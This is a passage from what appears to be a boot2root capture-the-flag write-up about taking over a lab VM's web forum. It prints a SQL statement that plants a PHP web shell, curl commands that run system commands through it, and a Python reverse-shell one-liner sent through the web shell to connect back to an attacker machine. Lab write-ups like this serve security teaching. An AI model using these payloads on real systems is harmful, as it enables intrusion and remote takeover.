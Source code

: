 Since I couldn't run all of them at once, I will try them one by one. After many trials.

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/37.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/39.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/38.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/40.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/41.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/42.png)

You might have noticed that the IP has changed. Don't worry—it's because I added another VM 
instance. I'll perform the process again, as I can no longer write to the previous one.

```sql
select "<?php echo 'Command: ' . $_POST['cmd'] . '\n'; system($_POST['cmd']);?>" into outfile "/var/www/forum/templates_c/backdoor.php";
```
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/43.png)

now I can do this

```sh
curl  "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=whoami; echo; ls -la"
```

BTW this is called
**WebShell:** is just backdoor but for web related stuff, that will allow us th execute commands
on the system i.e remote code execution here's nice video about it
`https://www.youtube.com/watch?v=iPmXu8XoCTI`

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/44.png)

Now, let's create a reverse shell so I can explore more easily.

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/45.png)

As you can see, while attempting this, we encountered a problem: there's no *-e* option.

Since this method isn't working, I found a website that Offers various ways to obtain a reverse shell

`https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/`

I decided to use Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'
```

```sh
curl "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);' "
```
